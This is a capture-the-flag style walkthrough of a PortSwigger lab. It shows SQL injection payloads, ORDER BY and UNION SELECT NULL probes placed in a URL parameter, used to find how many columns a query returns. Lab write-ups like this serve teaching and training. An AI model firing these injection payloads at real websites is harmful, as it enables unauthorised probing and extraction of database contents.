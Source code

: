 ```yaml
---
title: PortSwigger - SQLi 3 - UNION attack, determining the number of columns returned by the query
date: 2023-03-02
categories: [PortSwigger, SQLi]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values.

## ✅ Solution

Initial request:

````text
<website>/products?category=Gifts
````

Now we can use 2 technics to determine the number of rows returned:

### Method 1 - ORDER BY

````text
<website>/filter?category=Gifts' ORDER BY 1--    # works
<website>/filter?category=Gifts' ORDER BY 2--    # works
<website>/filter?category=Gifts' ORDER BY 3--    # works
<website>/filter?category=Gifts' ORDER BY 4--    # error!
````

So we know 3 columns are returned.

### Method 2 - UNION SELECT NULL

````text
<website>/filter?category=Gifts' UNION SELECT NULL--    # works
<website>/filter?category=Gifts' UNION SELECT NULL,NULL--    # works
<website>/filter?category=Gifts' UNION SELECT NULL,NULL,NULL--    # works
<website>/filter?category=Gifts' UNION SELECT NULL,NULL,NULL,NULL--    # error!
````

Same result: 3 columns are returned.
